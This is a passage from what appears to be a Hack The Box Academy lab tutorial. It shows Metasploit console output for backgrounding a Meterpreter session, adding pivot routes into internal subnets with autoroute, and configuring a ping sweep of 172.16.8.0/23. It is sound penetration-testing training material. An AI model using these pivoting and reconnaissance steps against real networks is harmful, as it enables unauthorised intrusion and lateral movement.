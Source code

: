 Next, we can set up routing using the `post/multi/manage/autoroute` module.

```shell-session
(Meterpreter 1)(/tmp) > background
[*] Backgrounding session 1...
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> use post/multi/manage/autoroute 
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> show options 

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, de
                                       fault)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION                   yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)

[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> set SESSION 1
SESSION => 1
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> set subnet 172.16.8.0
subnet => 172.16.8.0
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.203.111
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.17.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.18.0.0/255.255.0.0 from host's routing table.
[*] Post module execution completed
```

For a refresher, consult the [Crafting Payloads with MSFvenom](https://academy.hackthebox.com/module/115/section/1205) section of the `Shells & Payloads` module and the [Introduction to MSFVEnom](https://academy.hackthebox.com/module/39/section/418) section of the `Using the Metasploit Framework` module.

***

## Host Discovery - 172.16.8.0/23 Subnet - Metasploit

Once both options are set up, we can begin hunting for live hosts. Using our Meterpreter session, we can use the `multi/gather/ping_sweep` module to perform a ping sweep of the `172.16.8.0/23` subnet.

```shell-session
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> use post/multi/gather/ping_sweep
[msf](Jobs:0 Agents:1) post(multi/gather/ping_sweep) >> show options 

Module options (post/multi/gather/ping_sweep):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       IP Range to perform ping sweep against.
   SESSION                   yes       The session to run this module on

[msf](Jobs:0 Agents:1) post(multi/gather/ping_sweep) >> set rhosts 172.16.8.0/23
rhosts => 172.16.8.0/23
[msf](Jobs:0 Agents:1) post(multi/gather/ping_sweep) >> set SESSION 1
SESSION => 1
[msf](Jobs:0 Agents:1) post(multi/gather/ping_sweep) >> run

```